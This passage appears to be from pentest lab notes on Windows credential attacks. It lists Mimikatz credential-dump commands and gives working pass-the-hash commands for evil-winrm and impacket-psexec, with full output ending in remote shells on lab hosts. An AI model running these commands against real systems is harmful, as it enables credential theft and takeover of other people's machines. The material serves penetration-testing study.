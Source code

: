 <details><summary><h2>2.1. Successful <code>lsadump::sam</code> example</h2></summary></details>

<details><summary><h2>2.2. Successful <code>lsadump::lsa /patch</code> example</h2></summary></details>

<details><summary><h2>2.3. Successful <code>sekurlsa::logonpasswords</code> example</h2></summary></details>

# 3. Pass the Hash

> [!Note]
> 
> LM hashes are not used from Windows 10 onwards
> 
> Use either `00000000000000000000000000000000` (32 zeros) or `aad3b435b51404eeaad3b435b51404ee` (LM hash of `NULL`) to fill the LM hash portion for `impacket-psexec` or `pth-winexe`

# 3.1. Using evil-winrm

- WinRM `5985` must be enabled on the target
- User must be a member of `Remote Management Users` on the target

```console
root@kali:~# evil-winrm -i 192.168.17.11 -u domainadmin -H e19ccf75ee54e06b06a5907af13cef42

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\domainadmin\Documents>
```

## 3.2. Using impacket-psexec

```console
root@kali:~# impacket-psexec -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 lab.vx/domainadmin@192.168.17.12 cmd
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.17.12.....
[*] Found writable share ADMIN$
[*] Uploading file HwVcVIgn.exe
[*] Opening SVCManager on 192.168.17.12.....
[*] Creating service Dwks on 192.168.17.12.....
[*] Starting service Dwks.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1129]
(c) Microsoft Corporation. All rights reserved.
```
